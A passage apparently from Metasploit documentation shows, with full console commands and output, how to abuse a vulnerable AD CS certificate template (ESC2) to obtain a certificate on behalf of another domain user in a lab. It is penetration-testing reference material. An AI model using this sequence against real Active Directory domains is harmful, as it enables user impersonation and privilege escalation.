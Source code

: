 * A vulnerable certificate template, in this case `ESC2-Test`.
* A target account, in this case `MSFLAB\smcintyre`.

See [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2) section on ESC2 for more
information.

#### Step 1
The first step is to issue a certificate using the vulnerable certificate template.

```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert 
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser aliddle
SMBUser => aliddle
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass Password1!
SMBPass => Password1!
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA msflab-DC-CA
CA => msflab-DC-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC2-Test
CERT_TEMPLATE => ESC2-Test
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 192.168.159.10

[*] 192.168.159.10:445 - Connecting to ICertPassage (ICPR) Remote Protocol
[*] 192.168.159.10:445 - Binding to \cert...
[+] 192.168.159.10:445 - Bound to \cert
[*] 192.168.159.10:445 - Requesting a certificate...
[+] 192.168.159.10:445 - The requested certificate was issued.
[*] 192.168.159.10:445 - Certificate stored at: /home/smcintyre/.msf4/loot/20221107153602_default_unknown_windows.ad.cs_269882.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

#### Step 2
The second step is to run the module a second time, using the certificate template to request a certificate on behalf of
the target user. The `CERT_TEMPLATE` option is updated to one allowing authentication such as the default `User`
template.

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/smcintyre/.msf4/loot/20221107153602_default_unknown_windows.ad.cs_269882.pfx
PFX => /home/smcintyre/.msf4/loot/20221107153602_default_unknown_windows.ad.cs_269882.pfx
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF MSFLAB\\smcintyre
ON_BEHALF_OF => MSFLAB\smcintyre
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 192.168.159.10

[*] 192.168.159.10:445 - Connecting to ICertPassage (ICPR) Remote Protocol
[*] 192.168.159.10:445 - Binding to \cert...
[+] 192.168.159.10:445 - Bound to \cert
[*] 192.168.159.10:445 - Building certificate request on behalf of MSFLAB\smcintyre
[*] 192.168.159.10:445 - Requesting a certificate...
[+] 192.168.159.10:445 - The requested certificate was issued.
[*] 192.168.159.10:445 - Certificate UPN: smcintyre@msflab.local
[*] 192.168.159.10:445 - Certificate SID: S-1-5-21-3402587289-1488798532-3618296993-1000
[*] 192.168.159.10:445 - Certificate stored at: /home/smcintyre/.msf4/loot/20221107153713_default_unknown_windows.ad.cs_275853.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

[KB5014754]: https://support.microsoft.com/en-us/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16